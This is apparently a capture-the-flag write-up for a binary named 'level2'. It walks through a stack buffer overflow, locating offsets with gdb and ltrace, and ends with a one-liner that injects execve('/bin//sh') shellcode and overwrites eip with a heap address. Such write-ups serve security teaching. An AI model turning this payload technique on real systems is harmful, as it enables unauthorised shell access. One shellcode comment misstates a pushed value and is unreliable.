 In the code, we can see that there is a call to `gets` and ``strdup. Moreover we want to not be catched by the `if`. We could use a shell code to execute a shell,
store it in the buffer that will be copied with the `strdup` and do a buffer overflow to set `eip` to the adress of our copy of our shell code.

## Investigation

1) We need to know where our buffer is written. We will give `aaaa` as input, print the stack and see where the value `0x61616161` is.
    ```
    (gdb) x/12xw $esp
    0xbffff6b0:     0xbffff6cc      0x00000000      0x00000000      0xb7e5ec73
    0xbffff6c0:     0x080482b5      0x00000000      0x00000000      0x61616161
    0xbffff6d0:     0xbffff800      0x0000002f      0xbffff72c      0xb7fd0ff4
    ```
    We can see that our buffer is written at `0xbffff6cc`. 

2) Now we need to know where `eip` is saved.
    ```
    (gdb) i f
    Stack level 0, frame at 0xbffff720:
     ...
     Saved registers:
      ebp at 0xbffff718, eip at 0xbffff71c
    ```
    `eip` is saved at `0xbffff71c` we can then calculate the offset between our buffer and `eip`, `0xbffff71c - 0xbffff6cc = 0x50 = 0d80`.

3) Finally we need to know where `strdup` is going to save the copy of our buffer.
     ```bash
     $ ltrace ./level2
     ...
     strdup("oui")                                                             = 0x0804a008
     ...
     ```
     `strdup` store his value at `0x0804a008`.

## Exploit

We will use the shell code `\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80`, it's execute this
```c
int main() {
  char sc[] = "\x6a\x0b" // push byte +0xb
  "\x58" // pop eax
  "\x99" // cdq
  "\x52" // push edx
  "\x68\x2f\x2f\x73\x68" // push dword 0x68732f2f
  "\x68\x2f\x62\x69\x6e" // push dword 0x6e69922f
  "\x89\xe3" // mov ebx, esp
  "\x31\xc9" // xor ecx, ecx
  "\xcd\x80"; // int 0x80
   
  ((void (*)()) sc)();
}
```
It have a length of 21 chars, so will need to fill `80 - 21 = 59` chars to rewrite `eip`.

Our payload will be like `"<shell code>" + "a"*<offset - shell code length> + "<strdup adress>"`.
Completed it will be `"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "a"*59 + "\x08\xa0\x04\x08"`

```shell
(cat <(python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "a"*59 + "\x08\xa0\x04\x08"') -) | ./level2
```
